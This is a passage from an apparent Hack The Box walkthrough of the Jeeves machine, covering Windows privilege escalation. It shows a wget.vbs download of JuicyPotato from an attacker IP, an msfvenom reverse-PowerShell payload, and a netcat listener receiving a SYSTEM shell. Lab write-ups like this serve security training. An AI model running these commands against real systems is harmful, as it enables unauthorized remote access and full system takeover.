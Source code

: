 ```bash
cscript wget.vbs http://10.10.16.10/JuicyPotato.exe JuicyPotato.exe
```
{: .nolineno}

in shell like this :

```powershell
C:\Temp>cscript wget.vbs http://10.10.16.10/JuicyPotato.exe JuicyPotato.exe
cscript wget.vbs http://10.10.16.10/JuicyPotato.exe JuicyPotato.exe
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

C:\Temp>
```
{: .nolineno}

I got the JuicyPotato executable file now so lets upload a bat file that will give me a Administator’s reverse shell →

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.16.10 lport=443 > shell.bat
```
{: .nolineno}

I then transfered this bat file through cscript command only so lets run it and get a `nt\authority system` shell →

```powershell
C:\Temp>JuicyPotato.exe -t * -p shell.bat -l 4444
JuicyPotato.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Temp>JuicyPotato.exe -t * -p shell.bat -l 4444
JuicyPotato.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Temp>
```
{: .nolineno}

I started the netcat listener at port 443 and got the shell →

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Jeeves]
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.63] 49783
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>dir
```